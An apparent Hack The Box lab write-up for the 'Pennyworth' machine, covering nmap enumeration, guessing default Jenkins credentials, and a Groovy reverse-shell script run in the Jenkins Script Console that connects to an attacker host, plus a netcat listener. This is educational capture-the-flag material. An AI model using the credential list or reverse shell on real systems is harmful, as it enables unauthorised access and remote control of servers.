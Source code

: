 ```yaml
---
title: "HackTheBox - Pennyworth"
author: Nasrallah
description: ""
date: 2022-07-01 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, jenkins, groovy]
img_path: /assets/img/hackthebox/machines/pennyworth/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Pennyworth](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.193.169 (10.129.193.169)
Host is up (1.2s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
```

Found port 8080 open running jetty web server.

## Web

Let's navigate to port 8080.

![](1.png)

Found a login page for Jenkins.

## ffuf

Let's run a directory scan.

![](2.png)

Let's navigate to **/oops** page.

![](3.png)

This page reveals Jenkins version number. This version doesn't seem to be vulnerable to anything serious.

Let's try some default default credentials and attempt to login.

```
 - admin:admin
 - admin:password
 - admin:qwerty123
 - admin:root
 - root:root
 - root:admin
 - root:password
```

We managed to login using `root:password`.

# **Foothold**

Now that we managed to login as root, we can use script console to get a reverse shell.

At Jenkins Dashboard go to Manage Jenkins and then select Script Console.

![](4.png)

At the script console, we can run any Groovy program code we want. So we will run the following script that would give us a reverse shell.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](6.png)

Next we need to setup a netcat listener to receive the shell.`nc -lvnp 9001`.

Now press run and you should get a shell.

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).